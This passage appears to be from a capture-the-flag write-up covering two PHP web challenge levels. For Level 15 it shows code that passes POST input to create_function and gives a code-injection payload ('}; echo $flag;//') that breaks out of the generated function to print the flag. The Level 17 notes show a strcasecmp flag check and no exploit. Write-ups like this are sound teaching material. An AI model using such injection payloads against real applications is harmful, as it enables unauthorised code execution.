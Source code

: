 ## Level 15

PHP Injection.

```php
if (isset ($_POST['c']) && !empty ($_POST['c'])) {
    $fun = create_function('$flag', $_POST['c']);
    print($success);
    //fun($flag);
    if (isset($_POST['q']) && $_POST['q'] == 'checked') {
        die();
    }
}
```

The `create_function` function is vulnerable to command injection. It doesn't show us the variable that is printed, because `$success` is pre-defined variable. 

`create_functions` allows us to create lambda functions, and we can try to change the `success` variable or something. It uses `eval` to run the functions. 

So to exploit this, we can first try to escape the code block we are in using this:

```php
// }; echo $flag;//
create_function('$flag', }; echo $flag; // all other code on line commented.
```

The above equates to :

```php
eval('echo $flag;')
```

![](../../.gitbook/assets/Pasted%20image%2020240126143913.png)

## Level 17

`strcasecmp` used:

```php
<?php                                
if (! strcasecmp ($_POST['flag'], $flag))  
	echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';
else  
    echo '<div class="alert alert-danger">Invalid flag, sorry</div>';
?>
```
